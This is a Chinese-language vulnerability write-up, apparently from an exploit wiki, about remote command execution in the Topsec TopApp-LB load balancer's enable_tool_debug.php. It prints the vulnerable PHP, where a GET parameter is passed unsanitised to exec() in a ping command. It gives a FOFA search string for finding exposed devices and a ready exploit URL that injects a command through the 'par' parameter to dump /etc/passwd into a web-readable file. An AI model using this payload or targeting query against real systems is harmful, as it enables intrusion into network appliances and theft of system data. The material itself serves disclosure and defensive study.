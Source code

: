 # 天融信负载均衡TopApp-LB enable_tool_debug.php 远程命令执行漏洞

## 漏洞描述

天融信 TopSec-LB enable_tool_debug.php文件存在 远程命令执行漏洞，通过命令拼接攻击者可以执行任意命令

## 漏洞影响

> [!NOTE]
>
> 天融信 TopSec-LB

## FOFA

> [!NOTE]
>
> app="天融信-TopApp-LB-负载均衡系统"

## 漏洞复现

登录页面如下

![image-20210618212425381](http://wikioss.peiqi.tech/vuln/image-20210618212425381.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞文件为 **enable_tool_debug.php**

```php
<?php
require_once dirname(__FILE__)."/../common/commandWrapper.inc";
error_reporting(E_ALL ^ E_WARNING ^ E_NOTICE);
$val = $_GET['val'];
$tool = $_GET['tool'];
$par = $_GET['par'];
runTool($val,$tool,$par);
?>
```

**commandWrapper.inc** 文件中的 **runTool**

```php
function runTool($val,$tool,$par){
	if($val=="0"){
		UciUtil::setValue('system', 'runtool', 'tool', $tool);
		UciUtil::setValue('system', 'runtool', 'parameter', $par);
		UciUtil::commit('system');
		if($tool=="1"){
			exec('ping '.$par.'>/tmp/tool_result &');
		}else if($tool=="2"){
			exec('traceroute '.$par.'>/tmp/tool_result &');
		}
	}else if($val=="1"){
		$tool=UciUtil::getValue('system', 'runtool', 'tool');
		if($tool=="1"){
			exec('killall ping ');
		}else if($tool=="2"){
			exec('killall traceroute ');
		}
		UciUtil::setValue('system', 'runtool', 'tool', '');
		UciUtil::setValue('system', 'runtool', 'parameter', '');
		UciUtil::commit('system');
		exec('echo "">/tmp/tool_result');
	}
	
}	
```

这里设置 var=0，tool=1，再进行命令拼接造成远程命令执行

```
/acc/tools/enable_tool_debug.php?val=0&tool=1&par=127.0.0.1' | cat /etc/passwd > ../../test.txt |'
```

![image-20210618213319663](http://wikioss.peiqi.tech/vuln/image-20210618213319663.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

